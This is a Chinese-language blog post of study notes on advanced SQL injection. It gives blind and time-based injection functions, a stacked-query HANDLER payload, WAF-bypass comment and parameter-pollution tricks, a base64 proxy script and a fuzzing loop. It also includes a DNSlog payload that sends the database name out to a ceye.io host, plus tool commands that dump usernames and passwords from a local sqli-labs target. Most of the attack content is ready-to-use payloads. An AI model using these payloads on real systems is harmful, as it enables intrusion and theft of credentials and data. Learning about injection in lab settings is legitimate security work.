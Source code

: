 ```yaml
---
layout: post
title: SQL注入进阶
categories: [web,sql]
---
```


# 较为常规的注入 
## 函数  
```sql
    limit(0,1) #从第1个开始显示1条数据  
    if(条件,5,0) #条件成立，返回5，否则返回0    
    mid(a,b,c) #从位置b开始，截取a字符串第c位，从1开始  
    substr(a,b,c) #从位置b开始，截取字符串a的c长度  
    left(a,b) #从左侧截取a的前b位  
    length(database())=8 #判断database的长度  
    ord(x)=85或ascii(x)=85  
```
***
## 布尔盲注
>用left(database(),x)判断数据库长度  

---
## 延时盲注
![9](/img/sql9.png)
![10](/img/sql10.png)
>如果有id=1 and sleep(if(database()='a',b,1))则sleep(1)  
---
## 堆叠查询
```sql
    mysql_query():一条查询  
    mysqli_multi_query():多条查询
```
>使用handler 命令查看表中的「数据」，需要注意的是，表名如果是数字，则需要使用反引号包裹起来，payload如下：  
>?id=0';handler `tablename` open;handler `tablename` read first; -- a  
---
## 宽字节注入
>仅限于中文  
![6](/img/sql6.png)
## sql绕过
## sql写shell

# 注入拓展

## 加解密注入
cookie等要先加密再注入  
***
## 二次注入
#### 一般只能在白盒进行
>插入恶意数据  
>引用恶意数据  
***
## dnslog注入
>要有读写权限  
解决盲注不能回显数据，效率低的问题  
### 手动注入
[DNS在线服务器](http://ceye.io/)
```sql
//查询当前数据库  
id=1'and load_file(concat("\\\\",database(),".913n8.ceye.io\\xxx.txt"))--+  
```
### 工具注入
利用DnslogSqlinj工具进入DNSlog注入  
需要使用python27环境  
```
获取数据库名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" --dbs
获取数据库security下的表名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security --tables
获取users表的列名:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users --columns
获取uses表中的数据:
python2.7 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump

```
***
## 排序注入 
***
# waf绕过
## 数据
大小写  
### 加密解密
```php
//自写脚本,假如参数值经过base64加密
<?php
    $url="http://localhost/test.php?a=";
    $urls=$url.base64_encode($_GET['sqli']);
    $result=file_get_contents($urls);
    echo $result;
?>   
```  

### 编码解码  
### 等价函数  
### 特殊符号  
### 反序列化  

### 注释符混用  
```
union/**/select
%23a%0A   #号接上换行符  
/*!union select*/
id=1/**&id=-1 union select 1,2,3#*/ 此时waf不会识别/***/里的内容，但是会参数污染识别到最后一个参数  
```  
### http参数污染
>PHP/Apache 获取参数，若是相同的参数，则获取最后一个参数的值  

### Fuzz模糊测试
用字典写脚本访问
```py
import requests
import time
url="xxxx"
for sqli in open('payload.txt'):
    url=url+sqli
    result=requests.get(url).text
    if(result.find('xx')==-1):
        print("注入成功")
    time.sleep(1)
```